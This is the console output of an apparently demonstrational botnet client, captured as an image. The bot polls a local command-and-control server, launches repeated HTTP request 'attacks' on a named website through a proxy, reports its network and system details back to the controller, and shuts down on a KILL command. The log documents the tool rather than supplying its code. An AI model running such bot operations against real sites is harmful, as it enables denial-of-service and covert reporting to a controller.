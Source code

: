 \begin{verbatim}
               proxy=31.220.56.101:80, header={User-Agent=MyAwesomeBot},
               executions=3, period=10-15:SECONDS)]}
               from C&C at http://localhost:3000/command
  18:04:06.756 [main] INFO Scheduling attack against http://www.gmarciani.com...
  18:04:06.764 [main] INFO Attack scheduled
  18:04:06.764 [main] INFO Scheduling attack against http://www.gmarciani.com...
  18:04:06.776 [main] INFO Attack scheduled
  18:04:06.776 [main] INFO Waiting for polling 118 SECONDS...
  18:04:06.784 [BotPool_Worker-1] INFO Launching HTTP attack:
               GET http://www.gmarciani.com (1/1)
               behind proxy none
               with request params {User-Agent=MyAwesomeBot}
  18:04:06.784 [BotPool_Worker-2] INFO Launching HTTP attack:
               GET http://www.gmarciani.com (1/3)
               behind proxy 31.220.56.101:80
               with request params {User-Agent=MyAwesomeBot}
  18:04:20.766 [BotPool_Worker-3] INFO Launching HTTP attack:
               GET http://www.gmarciani.com (2/3)
               behind proxy 31.220.56.101:80
               with request params {User-Agent=MyAwesomeBot}
  18:04:34.766 [BotPool_Worker-4] INFO Launching HTTP attack:
               GET http://www.gmarciani.com (3/3)
               behind proxy 31.220.56.101:80
               with request params {User-Agent=MyAwesomeBot}
  18:06:04.780 [main] INFO Received command REPORT with params {}
               from CC at http://localhost:3000/command
  18:06:04.780 [main] INFO Executing command REPORT with params {}
  18:06:04.843 [main] INFO Sending report to C&C at http://localhost:3000/report...
  18:06:04.846 [main] INFO Report sent to C&C at http://localhost:3000/report
  {
    "config" : {
      "cnfInfo" : true,
      "tgtInfo" : true,
      "sysInfo" : true,
      "netInfo" : true,
      "polling" : "90-120:SECONDS",
      "reconnections" : 3,
      "reconnectionWait" : "2-5:SECONDS",
      "proxy" : "none",
      "userAgent" : "MyAwesomeBot",
      "sleep" : null,
      "controllers" : [ {
        "init" : "http://localhost:3000/init",
        "command" : "http://localhost:3000/command",
        "log" : "http://localhost:3000/report"
      } ]
    },
    "attacks-http" : [ ],
    "network-analysis" : "{MAC=20-68-9D-C3-76-EB, ip=127.0.1.1}",
    "system-analysis" : "{os=A cool OS, kernel=A cool kernel}"
  }
  18:06:04.847 [main] INFO Waiting for polling 91 SECONDS...
  18:07:35.851 [main] INFO Received command KILL with params {}
               from C&C at http://localhost:3000/command
  18:07:35.851 [main] INFO Executing command KILL with params {}
  18:07:35.853 [main] INFO Bot shut down
\end{verbatim}

